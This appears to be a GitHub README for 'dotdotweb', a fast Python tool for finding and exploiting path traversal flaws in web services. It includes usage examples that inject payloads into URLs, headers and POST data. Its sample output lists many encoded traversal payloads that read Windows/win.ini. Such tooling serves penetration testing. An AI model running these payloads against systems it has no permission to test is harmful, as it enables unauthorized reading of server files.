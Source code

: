 dotdotfarm
==========

![Version](https://img.shields.io/badge/version-1.5.1-blue?style=for-the-badge)

Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for HTTP services


Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make up to ~3K requests per second

Features
========
- async client for parallel requesting of target (speedup)
- ability to fetch files' content after succeeding a payload
- specifying payload in any part of query (url, headers or POST data)
- using callbacks for future handling of results

Installation
============
Install from PyPi
```bash
pip install dotdotweb
```
You can also install it directly from GitHub repository
```bash
git clone https://github.com/treddis/dotdotfarm.git
cd dotdotfarm
pip install -r requirements.txt
pip3 install .
```

Usage
=====
```bash

    .___      __      .___      __    _____                      
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____  
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \ 
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/ 
     
usage: dotdotweb [-h] [--version] [-V] [-A] [-R] [-o {windows,linux}]
                 [-d DEPTH] [-f FILE] [--delay DELAY]
                 [-t TIMEOUT] [-fs FS] [-fc FC] [--header HEADERS] [--data DATA]
                 url

fast path traversal identificator & exploit

positional arguments:
  url                   target URL

options:
  -h, --help            show this help message and exit
  --version             print version of the tool
  -V, --validate        validate files' content after successfull exploitation
                            (default false)
  -A, --all             try all files after successfull exploitation
                            (default false)
  -R, --print-files     read traversed files (default false)
  -o {windows,linux}, --os-type {windows,linux}
                        target OS type (default all)
  -d DEPTH, --depth DEPTH
                        depth of PT searching (default 5)
  -f FILE, --file FILE  specific file for PT detection
  --delay DELAY         make delays between requests in milliseconds (default 0)
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections (default 60)
  -fs FS                filter output by size
  -fc FC                filter output by response code
  --header HEADERS      custom header for requests
  --data DATA           specify POST data
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 \ 
          http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                   [Status: 200, Size: 111]
 ../Windows/win.ini                                                         [Status: 200, Size: 111]
 ..\Windows\win.ini                                                         [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                   [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                           [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                     [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                       [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                       [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                   [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                  [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                 [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                      [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                          [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                             [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                  [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                          [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                  [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                       [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                             [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                     [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```
